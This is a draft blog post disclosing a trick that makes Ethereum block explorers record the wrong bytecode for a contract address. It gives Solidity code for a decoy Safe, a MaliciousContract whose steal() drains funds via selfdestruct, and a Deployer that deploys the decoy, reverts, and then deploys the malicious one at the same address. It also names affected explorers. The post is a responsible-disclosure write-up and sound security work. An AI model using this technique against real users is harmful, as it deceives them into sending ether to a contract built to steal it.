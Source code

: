 ```yaml
---
title: "Poison Block Explorer Code"
date: 2019-02-09T15:56:15+02:00
draft: true
---
```


I will show you how to trick a block explorer to display a different bytecode than the one actually deployed on the chain.

This is important because a user can be tricked by the block explorer and think it interacts with a contract when actually it interacts with a different contract. It is indeed the same contract address, but the bytecode is not the one reported by the block explorer. This is a technique that hackers can use to trick users to think the contract work in your favour, when in fact it works against you.

- Set up the idea in advance
- Go through the idea
- Summarize it when you are done

i.e.
- Say what you are going to say
- Say it
- Say what you said

## Intro

I will show you how to trick a block explorer to display a different byte code than the one actually deployed on the chain.

This is important because a user can be tricked by a hacker to think it interacts with a good contract, when actually the user interacts with malicious contract. It is indeed the same contract address, but the byte code is not the one reported by the block explorer.

## Disclaimer

Not against any explorer.

This issue was reported.

## The setup

To make this work we need 3 things:

- a trustworthy contract that a user wants to interact with;
- another contract that is malicious, that the user does not want to interact with;
- a factory contract that pretends to deploy the trustworthy contract and actually deploys the malicious one.

## Trustworthy contract

Below is a simple contract that acts like a safe, a user can store funds and retrieve those funds at a later date:

```solidity
contract Safe {
    mapping(address => uint256) ledger;

    function () external payable  {
        ledger[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 balance = ledger[msg.sender];
        ledger[msg.sender] = 0;
        msg.sender.transfer(balance);
    }
}
```

If the user wants to store some funds, they can just send them to the contract. In the future the user can call the `withdraw()` method and retrieve all of their stored funds.

## Malicious contract

Below is a malicious contract that accepts funds and can send all the accepted funds to the owner. Your funds are not safe if you send your ether there. The owner can steal it all:

```solidity
contract MaliciousContract {
    address payable owner;

    constructor() public {
        owner = msg.sender;
    }

    function () external payable {
        // Accepts ether
    }

    function steal() public {
        selfdestruct(owner);
    }
}
```

## Factory contract

The address for an Ethereum contract is deterministically computed from the address of its creator and the creator's nonce.

We can define it like this without going into detail:

$${address} = f({sender}, {nonce})$$

<!-- > If you really want to understand how the new contract's address is computed, [this answer](https://ethereum.stackexchange.com/a/761/6253) is a really good explanation. -->

Below is the factory contract:

```solidity
contract Deployer {
    function createGood () public {
        // Pretend to deploy the contract and revert
        new Safe();
        revert();
    }

    function createMalicious() public {
        MaliciousContract newContract = new MaliciousContract();

        emit Deployed(address(newContract));
    }

    event Deployed(address safe);
}
```

The method `createGood()` pretends to deploy the good contract, but in the end it reverts the transaction. Trying to deploy the good contract means that it creates a message that contains the **byte code** and the **new contract address**. Reverting the transaction means that the contract's **nonce** is not changed and no new contract is deployed. Trying to create a new contract, the same nonce will be used, thus the **same new address** will be generated.

This is exactly what the method `createMalicious()` exploits. It deploys a new contract, but this time it does not revert, the new contract is indeed deployed.

## Confuse the block explorer

The exploit happens in 2 steps:

1. The hacker first calls `createGood()` and a contract message containing the **byte code** and the **new contract address** will be generated. If the block explorer does not handle the `revert()` properly, the **byte code** will be associated with the **new contract address**.

2. The hacker then calls `createMalicious()` which creates another contract message containing a different **byte code** and the **same contract address**.

The block explorer must handle the errors properly and only save the byte code when the contract message succeeds. Otherwise it will associate an incorrect byte code with a contract address.

The users checking the contract will see an incorrect byte code on the website. They will think they interact with a good contract when actually they interact with a malicious one.

## Result

The block explorer reports an incorrect byte code for a specific contract. This happens because we first pretend to deploy a contract and then revert. The block explorer notices the pretend and saves the byte code as the one deployed. When we actually deploy a new contract with a different byte code, the explorer does not overwrite the previously saved byte code.

In the end the reported byte code is not the one on the chain.

## Disclosure

I wanted to see if any explorers are vulnerable to this and this is the result:

Deployer
0x2d07e106b5d280e4ccc2d10deee62441c91d4340

Good Contract / Malicious Contract
0xf4a5afe28b91cf928c2568805cfbb36d477f0b75

Not vulnerable:

- [Etherscan](https://etherscan.io/)
- [EthStats](https://ethstats.io/) - Does not display any code, even after the second deploy.
- [Amberdata](https://amberdata.io/)
- [EtherChain](https://www.etherchain.org/)
- [EthOrbit](https://explorer.ethorbit.com/#/)

Vulnerable:

- [BlockChair](https://blockchair.com/ethereum)
- [BlockScout](https://blockscout.com/eth/mainnet/)

Other block explorers that display too little information or do not display the contract code.

- [EthPlorer](https://ethplorer.io/)
- [Bloxy](https://bloxy.info/)
- [Trivial](https://trivial.co/)
- [WatchEthereum](http://watchethereum.com/)

## Aftermath

- Explorers affected
- Explorers (not) affected